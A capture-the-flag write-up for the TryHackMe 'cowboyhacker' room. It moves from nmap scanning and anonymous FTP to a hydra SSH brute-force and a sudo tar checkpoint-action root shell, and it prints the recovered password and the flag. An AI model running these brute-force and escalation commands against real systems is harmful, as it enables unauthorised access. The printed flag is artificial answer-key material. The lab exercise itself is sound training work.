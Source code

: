 # Overview
https://tryhackme.com/room/cowboyhacker

```
export IP=10.10.191.59
```

## NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```

## FTP
We can see FTP is open:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.44.85
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```
```
ftp $IP
dir
get lock.txt
get tasks.txt
```

## hyra
For finding passwords
```
hydra -l lin -P lock.txt ssh://$IP
```
Found a password:
```
RedDr4gonSynd1cat3
```
Now we can ssh into the box:
```
ssh lin@$IP
sudo -l
[sudo] password for lin:
RedDr4gonSynd1cat3

Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
So lin can run `tar` as root. Lets find [something](https://gtfobins.github.io/gtfobins/tar/) to get root.
```
lin@bountyhacker:~$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# find / -name root.txt 2> /dev/null
/root/root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

